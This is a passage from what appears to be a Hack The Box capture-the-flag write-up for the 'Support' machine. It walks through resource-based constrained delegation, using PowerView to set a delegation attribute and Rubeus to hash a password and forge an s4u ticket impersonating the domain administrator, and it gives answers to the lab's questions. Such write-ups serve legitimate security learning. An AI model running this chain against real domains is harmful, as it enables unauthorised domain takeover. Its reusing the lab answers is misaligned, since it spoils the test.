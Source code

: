 ```
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
Finally, check on our work:
```
$RawBytes = Get-DomainComputer $TargetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
```
```
$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
```
```
$Descriptor.DiscretionaryAcl
```
Now we need to get a TGS to impersonate the administrator

/rc4 is the NTLM hash - you can compute it using Rubeus's hash module - that is needed for the attack
```
.\Rubeus.exe hash /password:microwave2025! /user:microwavecoolpc /domain:support.htb
```
info on the s4u module: https://github.com/GhostPack/Rubeus?tab=readme-ov-file#constrained-delegation-abuse
```
.\Rubeus.exe s4u /user:microwavecoolpc$ /rc4:2A89B17883C4C7B8619D1D5E773A3F3B /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```
What we have done here is pretend to be our fake computer, who we arbitrarily gave fake permissions to request to act on behalf of other identities. (Side note: this technique is good for pentests as to clean this up you just remove the computer account and SDDL on the attribute). And so Kerberos will return to us a TGS as any user we choose. I choose you, Administrator!

SMB SPNs usually use that cifs prefix. I got very held up on this I could not figure out exactly how to go about discovering this value. I could not find a way to enumerate all Service Principal Names available on a host.

```
Get-DomainComputer -Identity dc.support.htb | Select-Object -ExpandProperty serviceprincipalname
```

I think that this is just one of the things you need to know.

Why request a TGS for cifs? Well the next few prompts want you to use the TGS you just got to authenticate via PSEXEC.
## What is the name of the environment variable on our local system that we'll set to that ccache file to allow use of files like psexec.py with the -k and -no-pass options?

KRB5CCNAME

## Submit the flag located on the administrator's desktop.

Your Rubeus output will return a few TGSs. You need the one for "Administrator" for the "cifs" SPN so you can use it to authenticate to SMB for PSEXEC.
